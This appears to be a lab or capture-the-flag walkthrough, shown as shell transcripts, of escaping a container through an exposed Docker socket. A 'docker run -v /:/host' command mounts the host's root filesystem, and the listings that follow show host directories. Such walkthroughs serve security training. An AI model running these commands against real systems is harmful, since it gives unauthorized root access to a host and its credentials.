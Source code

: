 ```bash
:~# ls -la /var/run/docker.sock
srw-rw---- 1 root 121 0 Sep 26 xx:xx /var/run/docker.sock
```

```bash
:/# docker -H unix:///var/run/docker.sock images ls
REPOSITORY   TAG       IMAGE ID   CREATED   SIZE
```

```bash
root@4f18a45cca05:/# docker -H unix:///var/run/docker.sock images
REPOSITORY      TAG       IMAGE ID       CREATED        SIZE
phpvulnerable   latest    d0bf58293d3b   3 months ago   926MB
php             8.1-cli   0ead645a9bc2   6 months ago   527MB
```

<br>

```bash
# cd /root45cca05:/# docker run -it --rm -v /:/host phpvulnerable:latest /bin/sh 
# ls
# pwd
/root
# ls -lah
total 20K
drwx------ 1 root root 4.0K Jun  4 15:44 .
drwxr-xr-x 1 root root 4.0K Sep 26 xx:xx ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4.0K Jun  4 15:44 .ssh
# cd ..
# ls -lah
total 60K
drwxr-xr-x   1 root root 4.0K Sep 26 xx:xx .
drwxr-xr-x   1 root root 4.0K Sep 26 xx:xx ..
-rwxr-xr-x   1 root root    0 Sep 26 xx:xx .dockerenv
lrwxrwxrwx   1 root root    7 May 20 00:00 bin -> usr/bin
drwxr-xr-x   2 root root 4.0K May  9 14:50 boot
drwxr-xr-x   5 root root  360 Sep 26 xx:xx dev
drwxr-xr-x   1 root root 4.0K Sep 26 xx:xx etc
drwxr-xr-x   2 root root 4.0K May  9 14:50 home
drwxr-xr-x  19 root root 4.0K Sep 26 xx:xx host
lrwxrwxrwx   1 root root    7 May 20 00:00 lib -> usr/lib
lrwxrwxrwx   1 root root    9 May 20 00:00 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4.0K May 20 00:00 media
drwxr-xr-x   2 root root 4.0K May 20 00:00 mnt
drwxr-xr-x   2 root root 4.0K May 20 00:00 opt
dr-xr-xr-x 202 root root    0 Sep 26 xx:xx proc
drwx------   1 root root 4.0K Jun  4 15:44 root
drwxr-xr-x   1 root root 4.0K Jun  4 15:44 run
lrwxrwxrwx   1 root root    8 May 20 00:00 sbin -> usr/sbin
drwxr-xr-x   2 root root 4.0K May 20 00:00 srv
dr-xr-xr-x  13 root root    0 Sep 26 xx:xx sys
drwxrwxrwt   1 root root 4.0K Jun  4 15:44 tmp
drwxr-xr-x   1 root root 4.0K May 20 00:00 usr
drwxr-xr-x   1 root root 4.0K May 21 23:17 var
# cd host
# ls -lah
total 76K
drwxr-xr-x  19 root root 4.0K Sep 26 xx:xx .
drwxr-xr-x   1 root root 4.0K Sep 26 xx:xx ..
-rw-r--r--   1 root root  166 Sep 26 xx:xx .badr-info
lrwxrwxrwx   1 root root    7 Oct 26  2020 bin -> usr/bin
drwxr-xr-x   3 root root 4.0K Jul  9 18:57 boot
drwxr-xr-x  17 root root 3.8K Sep 26 xx:xx dev
drwxr-xr-x 113 root root 4.0K Sep 26 xx:xx etc
```